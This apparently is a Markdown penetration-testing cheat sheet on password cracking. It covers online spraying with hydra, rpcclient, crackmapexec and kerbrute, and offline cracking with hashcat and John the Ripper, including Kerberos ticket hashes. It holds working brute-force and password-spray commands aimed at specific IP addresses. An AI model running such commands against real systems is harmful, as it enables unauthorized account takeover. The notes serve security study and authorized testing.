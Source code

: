 # Cracking
Password cracking involves various techniques and tools to recover or crack passwords from hashed or encrypted formats.
It has two main branches, 1) Online cracking passwords/Spray. 2) Offline cracking hashes.

* Online Password Cracking: Online password cracking involves attempting to crack passwords in real-time by directly interacting with the target system. While this approach is less common and not always effective, tools like Hydra can be used to automate online password guessing. Hydra is a versatile tool that supports a range of protocols, such as SSH, FTP, HTTP, and more, enabling automated login attempts using a provided wordlist or dictionary.

* Offline Password Hash Cracking: Offline password cracking refers to the process of cracking password hashes obtained from a target system without actively interacting with the system itself. Tools like Hashcat and John the Ripper are commonly used for offline cracking. Hashcat, leveraging the power of GPUs, is known for its speed and supports various hash types and attack modes, including dictionary attacks, brute-force attacks, and rule-based attacks. John the Ripper, another popular tool, can handle diverse password hash formats and offers flexible attack modes.

## Creating wordlists
![Pasted image 20230509090220](https://github.com/dbissell6/Shadow_Stone/assets/50979196/54c6eb3e-a0bd-4e30-ae44-2473c2703348)


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/e19d3ea8-7a76-4678-83dc-0e8bba6f894f)

```
hashcat --force password.list -r /usr/share/hashcat/rules/best64.rule --stdout | sort -u > mut_password.list
```
# Online
Last route, hard to crack, easy to get blocked.

## hydra login webpage
```
hydra -l admin -P rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```
## hydra ftp/ssh/smb
![Pasted image 20230509090612](https://github.com/dbissell6/Shadow_Stone/assets/50979196/0be7b78a-b10d-4edf-b1cb-5b28402c216b)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/e9852315-02b7-485d-b2d5-0408b0aa613a)


## crackmapexec

<img width="681" alt="Screen Shot 2022-08-06 at 10 16 27 AM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/7ec8a6d2-1cb5-41da-860e-03ccd188f8f0">

![Pasted image 20220805223125](https://github.com/dbissell6/Shadow_Stone/assets/50979196/07107201-2407-44ba-8e22-95d1f5a0f9ca)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/665cab1d-ed45-478b-8caa-9c8ef85f0ba6)


## rpcclient to password spray
![Pasted image 20230508093804](https://github.com/dbissell6/Shadow_Stone/assets/50979196/404d14eb-881b-48d0-8fec-7fc0147330fb)

```
for u in $(cat usernames.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
## kerbrute to spray

![Pasted image 20230508093946](https://github.com/dbissell6/Shadow_Stone/assets/50979196/37b9f071-4e6e-4e66-953d-bd116c0f04ca)


# Offline
Remember, if trying to crack a hash of something from a windows system, even if the cracking fails you might still be able to Pass The Hash.



## Hashcat

## hashcat example hashes

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/41352270-138e-4883-9a67-6c67197c3b95)


## hashcat bruteforce length 8 digits+uppercase

```
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

## John 
See all the hashes that can be converted to something john can crack
```
locate *2john*
```

## md5 with format

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/5958012a-fe55-4325-a4d8-ebd9de77f59b)


## zip password
![Pasted image 20220805161528](https://github.com/dbissell6/Shadow_Stone/assets/50979196/eeed6c7b-2722-4d0c-aa1b-82c38390554a)

![Pasted image 20220805161535](https://github.com/dbissell6/Shadow_Stone/assets/50979196/b48c3d5b-1cdc-41df-9346-302b54ba2d71)

## pfx
![Pasted image 20220805161711](https://github.com/dbissell6/Shadow_Stone/assets/50979196/30eb6a80-1283-430e-a0ad-723acc91a2d4)

## TGS ticket

![Pasted image 20230503093443](https://github.com/dbissell6/Shadow_Stone/assets/50979196/e734a700-997d-4ce9-abe2-a9622c1c6988)

![Pasted image 20230503093654](https://github.com/dbissell6/Shadow_Stone/assets/50979196/6d0336e0-2db4-4de3-bc22-20e7b46e5df2)

## AS-REPRoastable hashes
![Pasted image 20230503112725](https://github.com/dbissell6/Shadow_Stone/assets/50979196/28d33815-bf5f-4b74-841b-7e51389c715a)

## SSH

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/83168a86-d864-4a78-a466-d28c524f86a6)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/bee30523-84f3-4241-ac99-7fd431dfff39)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/f4dc63bd-7305-4816-9414-436321ffeac9)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/32d8b87c-c786-4bba-aabc-c6230e4d44a5)


